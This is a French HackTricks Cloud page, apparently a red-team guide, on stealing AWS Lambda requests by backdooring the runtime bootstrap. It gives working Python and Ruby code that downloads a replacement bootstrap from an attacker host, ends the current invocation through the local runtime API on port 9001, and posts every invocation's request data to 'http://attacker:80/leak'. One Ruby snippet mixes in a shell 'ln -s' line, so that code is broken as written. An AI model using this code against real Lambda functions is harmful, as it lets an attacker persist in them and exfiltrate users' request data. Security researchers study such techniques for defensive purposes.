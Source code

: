 # AWS - Voler les requêtes Lambda

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Introduction <a href="#python-runtime" id="python-runtime"></a>

Cette attaque suppose que vous avez un certain type d'**accès sur une Lambda en cours d'exécution**.\
Il est également important de noter que les **invocations Lambda ne sont pas complètement séparées les unes des autres mais sont isolées**. Elles pourraient s'exécuter, bien que pas simultanément, dans le même environnement d'exécution. Avec cela à l'esprit, commençons à disséquer cet environnement.

### Isolation

L'isolation Lambda utilise ces cgroups :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

Comme le préfixe 'sandbox' ne correspondait à aucun moteur de conteneur commun (docker, podman, LXD, rkt), il pourrait s'agir d'un moteur de conteneur propriétaire, qui pourrait utiliser en interne un moteur d'exécution de conteneur open source comme [runC](https://github.com/opencontainers/runc).

### Fonctionnement des Lambdas  <a href="#python-runtime" id="python-runtime"></a>

Voici ce qui semble être l'architecture Lambda python :

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. Un processus à l'extérieur du conteneur, appelé le "**slicer**" dans le binaire init, envoie des événements d'invocation au processus **init** via la mémoire partagée.
2. Le processus init configure un serveur HTTP sur le port 9001 (codé en dur), avec plusieurs points de terminaison exposés :
   1. /2018-06-01/runtime/invocation/**next** – obtenir le prochain événement d'invocation
   2. /2018-06-01/runtime/invocation/{invoke-id}/**response** – retourner la réponse du gestionnaire pour l'invocation
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** – retourner une erreur d'exécution
3. Dans `bootstrap.py`, la boucle suivante **interroge le processus init pour un nouvel événement**, puis **appelle la fonction de l'utilisateur** pour le gérer (ici, le gestionnaire de requête que vous avez téléchargé s'exécute).\

<figure><img src="../../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>
4. La **réponse du gestionnaire est ensuite renvoyée au processus init** via l'un des points de terminaison suivants :
   1. `/{invoke-id}/response` – si le gestionnaire de l'utilisateur s'est exécuté avec succès
   2. `/{invoke-id}/error` – si une exception a été levée pendant le traitement de l'invocation

## Résumé de la technique <a href="#python-runtime" id="python-runtime"></a>

Il est possible de **substituer le script bootstrap** par du code malveillant pour pouvoir **intercepter les données** envoyées à la fonction Lambda.\
Notez que **d'autres moteurs dans d'autres langues** ont un autre script **bootstrap** écrit dans cette langue, donc cela peut être fait **également dans d'autres lambdas utilisant d'autres langues**, pas seulement en python.

## Python <a href="#python-runtime" id="python-runtime"></a>

Depuis la lambda, téléchargez **`/var/runtime/bootstrap.py`** (ou lancez simplement **votre propre lambda** et obtenez-le) et ajoutez le backdoor qui fera fuiter toutes les données envoyées à Lambda. Vous avez juste besoin d'ajouter quelques lignes telles que :

<figure><img src="../../../../.gitbook/assets/image (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Remplacement du Runtime

Maintenant, avec le nouveau **`bootstrap.py` créé**, il est possible de le **télécharger**, **terminer l'invocation lambda actuelle** et l'exécuter pour **remplacer** le légitime :
```python
import os
from urllib import request

# Download bootstrap.py from your server
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
f.write(r.read().decode('utf-8'))

# Get invocation ID and end it
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Start your bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```
Ou vous pourriez également utiliser [twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py), qui terminera l'invocation comme précédemment, exécutera le nouveau bootstrap et exfiltrera les informations.

{% hint style="warning" %}
Si une fonction lambda n'est pas utilisée pendant 5 à 15 minutes, elle sera arrêtée, et tous les changements seront perdus la prochaine fois qu'elle sera invoquée.
{% endhint %}

## Ruby Runtime <a href="#ruby-runtime" id="ruby-runtime"></a>

En ruby, le fichier que vous souhaitez compromettre est le fichier **`/var/runtime/lib/runtime.rb`** (obtenez-le depuis le système ou en exécutant votre propre lambda).

Ajouter une porte dérobée est aussi simple que dans la version python :
```ruby
# Add a require at the beggining
require 'json'
require 'net/http'
[...]
# In the loop where the invocation is treated
begin
context = lambdaContext.new(raw_request)
uri = URI('http://attacker:80/leak')
Net::HTTP.post(uri,JSON.generate(request))
[...]
```
Ensuite, vous devez simplement faire ce que vous avez fait dans la version python avec juste un changement :

* **Téléchargez le backdoor dans un répertoire**
* **Symlink** `/var/runtime/lib/*` avec le répertoire où se trouve le backdoor
* Terminez l'invocation lambda actuelle
```ruby
# You can get a ruby shell with 'irb' or run from shell with ruby -e "..."

require 'net/http'

# Downloading new script
uri = URI("http://attacker/rumtime.rb")
r = Net::HTTP.get_response(uri)
File.write("/tmp/rumtime.rb", r.body)

# Create symlink
ln -s /var/runtime/lib/* /tmp

# Terminate currrent invocation
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
req = Net::HTTP.get_response(uri)
inv_id = req.header['Lambda-Runtime-Aws-Request-Id']
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+inv_id+'/response')
Net::HTTP.post(uri, 'null')
```
## Références

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
